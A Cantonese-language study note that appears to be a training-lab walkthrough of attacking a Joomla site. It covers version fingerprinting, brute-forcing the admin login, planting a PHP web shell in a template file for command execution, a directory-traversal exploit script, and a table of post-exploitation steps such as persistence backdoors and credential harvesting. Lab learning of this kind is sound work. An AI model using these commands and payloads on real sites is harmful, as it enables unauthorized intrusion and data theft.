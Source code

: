 # Joolmla

## <mark style="color:red;">**1. 發現點**</mark>

#### 1️⃣ 確認目標係 Joomla：

```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

出現：

```html
<meta name="generator" content="Joomla! - Open Source Content Management" />
```

代表已確認用 Joomla！



## <mark style="color:red;">**2. 測試Payload**</mark>

* 嘗試存取 README.txt：

```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

* 查看 XML 文件：

```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```

> 找到 `<version>3.9.4</version>`，代表使用 Joomla 3.9.4

* 使用 droopescan：

```bash
droopescan scan joomla --url http://dev.inlanefreight.local
```

> 可列出版本範圍、Login 頁面、License.txt 文件

* （可選）Joomlascan：

<pre class="language-bash"><code class="lang-bash"><strong>python2.7 joomlascan.py -u http://dev.inlanefreight.local
</strong></code></pre>

> 幫助尋找開放目錄或可能漏洞。

## <mark style="color:red;">3.</mark> 暴力破解登入

* Joomla 預設管理員帳號通常為 `admin`
* 使用 `joomla-brute.py` 爆破登入：

```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

成功結果：

```
admin:admin
```

> 拎到帳號同密碼後直接登入後台：

```
http://dev.inlanefreight.local/administrator/index.php
```

## <mark style="color:red;">4.</mark> 濫用後台功能取得 RCE

\


> 登入成功後，我地可以利用客製化模板來寫 WebShell

#### 1️⃣ 解除插件錯誤

若後台報錯「發生錯誤。在 null 上呼叫成員函數 format()」

* 進入：

```
http://dev.inlanefreight.local/administrator/index.php?option=com_plugins
```

* 停用 `快速圖示 - PHP 版本檢查`

#### 2️⃣ 編輯模板

* 左邊點擊「Templates」
* 選 `protostar` > `Customize`
* 點擊 `error.php`
* 加入 payload：

```php
<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>
```

* Save & Close

#### 3️⃣ 執行RCE測試：

```bash
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

出現：

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

代表成功取得 shell。

## <mark style="color:red;">4.已知漏洞利用</mark>

* Joomla 核心漏洞唔多，大部分係插件漏洞。
* 你可以用 exploit-db 搜 `joomla`，再配合版本進行篩選。
* 常見可利用漏洞包括：
  * 路徑穿越 (Directory Traversal)
  * SQL Injection
  * RCE 通過第三方擴展

例如：

```bash
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
```

> 如果成功，可以下載任意路徑文件。

## <mark style="color:red;">5. 連鎖漏洞</mark>

如果已經進入 Joomla 後台或者已經有RCE，可以繼續進行以下行動：

| 階段    | 攻擊行動                                              |
| ----- | ------------------------------------------------- |
| 提權    | 嘗試 `sudo -l`、找 SUID 文件、弱權限服務提權                    |
| 横向移動  | 掃描內網：`netstat -an`、`nmap -sn` 探索有冇其他主機            |
| 密碼回收  | 查看 `configuration.php` 裏面有冇數據庫密碼 / 或其他帳密洩露        |
| 持久化後門 | 再寫 shell 落 `/images` 或 `modules`，並放置後門連線          |
| 秘密蒐集  | `find / -name "*flag*"` 或 \`find / -name "\*.txt" |
